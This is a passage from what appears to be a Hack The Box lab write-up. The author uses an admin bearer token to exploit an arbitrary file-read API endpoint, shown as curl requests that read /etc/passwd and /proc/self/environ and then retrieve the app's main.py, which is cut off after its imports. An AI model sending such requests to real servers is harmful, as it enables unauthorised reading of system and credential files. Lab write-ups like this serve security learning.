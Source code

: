 - Here the endpoint `file` seems to be useful, actually I can read arbitary files using this endpoint. First let me try and access `/etc/passwd`

```bash
curl -X 'POST' \
  'http://10.10.11.161/api/v1/admin/file' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzQxOTM2OTU0LCJpYXQiOjE3NDEyNDU3NTQsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.eL4UaJ5NCf-TEpWdq21t-kEbO-7YJTmmLLkooJussuE' \
  -H 'Content-Type: application/json' \
  -d '{
  "file": "/etc/passwd"
}' | jq
```
- It was successfull
![gif](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExaTUxcXV2bW1yYmZxOTVob3g5d2JsdTFqa2JuM201bmpzMHh2bTZ3dyZlcD12MV9naWZzX3NlYXJjaCZjdD1n/fyHMkzt0iee7vnGJZc/giphy.gif)
![passwd](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306085318.png?raw=true)
 
- However when I try to run commands using this endpoint `/api/v1/admin/exec/<commands>` I get this error. Hmm... what could it be 🤔
![error](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306085608.png?raw=true)

- From `/etc/passwd` I got to know that user `htb` has `bash` access.
![user-htb](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306085831.png?raw=true)

## Exploitation
- To identify the web application running directory I can request to read this file path `/proc/self/environ`. From reading the file I identified the running directory of this web.
```bash
curl -X 'POST' \  
  'http://10.10.11.161/api/v1/admin/file' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzQxOTM2OTU0LCJpYXQiOjE3NDEyNDU3NTQsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.eL4UaJ5NCf-TEpWdq21t-kEbO-7YJTmmLLkooJussuE' \
  -H 'Content-Type: application/json' \
  -d '{
  "file": "/proc/self/environ"
}' | jq -r '.file'
``` 
![env-iden](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250306090839.png?raw=true)

- The path should be this `/home/htb/uhc/app/main.py`
- I requested for the source code using `file` endpoint and got it 
```python
import asyncio

from fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends
from fastapi_contrib.common.responses import UJSONResponse
from fastapi import FastAPI, Depends, HTTPException, status
from fastapi.security import HTTPBasic, HTTPBasicCredentials
from fastapi.openapi.docs import get_swagger_ui_html
from fastapi.openapi.utils import get_openapi



from typing import Optional, Any
from pathlib import Path
from sqlalchemy.orm import Session



```
